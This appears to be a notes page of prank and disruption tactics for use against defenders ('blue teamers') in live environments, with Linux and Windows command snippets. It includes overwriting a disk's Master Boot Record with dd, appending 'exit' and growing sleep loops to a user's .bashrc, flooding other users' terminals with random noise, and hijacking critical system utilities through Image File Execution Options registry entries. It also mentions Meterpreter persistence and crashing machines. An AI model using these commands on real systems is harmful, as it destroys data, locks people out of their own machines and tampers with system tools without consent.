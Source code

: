A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.
tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

git clone https://github.com/klange/nyancat.git
cd nyancat
make
cd src
./nyancat > /dev/pts/<pts-num-of-opponent>

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/[pts-num-of-opponent] # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

telnet towel.blinkenlights.nl > /dev/[pts-num-of-opponent]

export PROMPT_CMD="clear && echo 'You didn't say the magic word!'"
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<CRITICAL SYSTEM UTILITY OF YOUR CHOICE>" /v "Debugger" /t REG_SZ /d "\"<GOOFY IMAGE FILE OR OTHER>" /z" /f # Replaces the executables with a "debugger"... or a weird image of your choosing. 

Desktop Goose 👀
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.

